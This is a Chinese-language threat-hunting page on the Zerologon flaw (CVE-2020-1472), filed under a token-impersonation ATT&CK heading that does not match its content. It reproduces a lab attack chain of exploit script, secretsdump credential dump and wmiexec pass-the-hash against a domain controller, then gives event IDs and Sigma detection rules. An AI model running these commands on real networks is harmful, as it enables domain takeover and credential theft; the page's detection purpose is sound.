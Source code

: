# T1134-001-win-CVE-2020-1472

## 来自ATT&CK的描述

攻击者可能会复制，然后冒充另一个用户的令牌以提升特权并绕过访问控制。攻击者可以创建一个新的访问令牌，该令牌使用来复制现有令牌DuplicateToken(Ex)。然后可以将该令牌用于ImpersonateLoggedOnUser允许调用线程模拟已登录用户的安全上下文，或者SetThreadToken用于将模拟令牌分配给线程。

当攻击者具有要将新令牌分配给的特定现有过程时，他们可以执行此操作。例如，当目标用户在系统上具有非网络登录会话时，这可能很有用。

## 测试案例

2020年9月11日，安全研究员Secura发布了公告，阐明了Microsoft在2020年8月修补的漏洞细节（CVE-2020-1472）。该漏洞也称为“Zerologon”，CVSS评分为10.0，号称3秒撸域控，危害严重。攻击者在通过NetLogon（MS-NRPC）协议与AD域控建立安全通道时，可利用该漏洞将AD域控的计算机账号密码置为空，从而控制域控服务器。本文将从“Zerologon”漏洞原理、漏洞复现、威胁狩猎三个维度对该漏洞进行分析。

具体可参考安全客相关文章，[传送门](!https://www.anquanke.com/post/id/219090#h2-2)

## 检测日志

Windows 系统日志、全流量

此外，在8月份的补丁中，Microsoft添加了五个新的event ID，以通知易受攻击的Netlogon连接：

1、允许存在漏洞的Netlogon安全通道连接时，将生成event ID 5829

2、拒绝易受攻击的Netlogon连接时，将触发event ID 5827和5828

3、允许存在漏洞的Netlogon连接时触发的event ID 5830和5831

如果域控已经安装了补丁，还可以通过以上5个event ID进行威胁狩猎。

## 测试复现

以下模拟测试过程来自安全客相关文章，[传送门](!https://www.anquanke.com/post/id/219090#h2-2)

实验环境：

```yml
域控：Winserver2012 R2（x64）
IP：10.10.10.10
hostname：DC
域：de1ay.com
```

![windows域控](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/t01d53a30398ec357a2.jpg)

```yml
攻击机：ubuntu1604（x64）
IP：10.10.10.111
```

![hacker-pc](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/t019275a00ca38b1d6b.jpg)

运行exp脚本，成功将AD域控的机器账户DC的密码置换成空：

```yml
python3 cve-2020-1472-exploit.py  DC 10.10.10.10
```

![hacking-1](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/t01f402a9c7c4c3b532.jpg)

此时域控服务器账户密码为空，同等于已知密码，可以导出域内所有用户凭据：

```yml
python3 secretsdump.py de1ay/DC\$@10.10.10.10 -no-pass
```

![hacking-2](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/t01497ee0714e6f98cc.jpg)

导出hash后，发现DC的hash为31d6cfe0d16ae931b73c59d7e0c089c0，也就是空密码，同时获得了域管administrator的hash，利用administrator的hash拿下域控：

```yml
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24 Administrator@10.10.10.10
```

![hacking-3](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/t0140b167f7020733c8.jpg)

## 测试留痕

暂无，具体同样可参考安全客文章，[传送门](!https://www.anquanke.com/post/id/219090#h2-2)

## 检测规则/思路

### sigma规则

#### 检测规则1

```yml
title: Possible CVE-2020-1472 (zerologon)
description: CVE-2020-1472 (Netlogon Elevation of Privilege Vulnerability) may create thousands of NetrServerReqChallenge & NetrServerAuthenticate3 requests in a short amount of time.
author: SOC Prime Team
date: 2020/09/11
references:
- https://github.com/SecuraBV/CVE-2020-1472
tags:
- attack.lateral_movement
- attack.T1210
logsource:
  product: zeek
  service: dce_rpc
detection:
  selection:
    endpoint: 'netlogon'
    operation: 'NetrServerReqChallenge'
  selection2:
    endpoint: 'netlogon'
    operation: 'NetrServerAuthenticate3'
  timeframe: 1m
  condition: selection or selection2 | count() by src_ip > 100
falsepositives:
- 'unknown'
level: high
```

### 检测规则2

```yml
title: Vulnerable Netlogon Secure Channel Connection Allowed
id: a0cb7110-edf0-47a4-9177-541a4083128a
status: experimental
description: Detects that a vulnerable Netlogon secure channel connection was allowed, which could be an indicator of CVE-2020-1472.
references:
    - https://support.microsoft.com/en-us/help/4557222/how-to-manage-the-changes-in-netlogon-secure-channel-connections-assoc
author: NVISO
date: 2020/09/15
tags:
    - attack.privilege_escalation
logsource:
    product: windows
    service: system
detection:
    selection:
        EventID:
            - 5829 #具备一定的局限性，需要域控主机打完补丁后，方可使用
    condition: selection
fields:
    - SAMAccountName
falsepositives:
    - Unknown
level: high
```

### 建议

相关规则未在真实环境中进行测试，效果未知。

## 参考推荐

MITRE-ATT&CK-T1134-001

<https://attack.mitre.org/techniques/T1134/001/>

ZeroLogon（CVE-2020-1472）分析与狩猎 

<https://www.anquanke.com/post/id/219090#h2-2>

win_vul_cve_2020_1472-sigma

<https://github.com/Neo23x0/sigma/blob/2cd9b794e677a038f3ace5b15d649ca191809846/rules/windows/builtin/win_vul_cve_2020_1472.yml>

zeek官方

<https://zeek.org/>
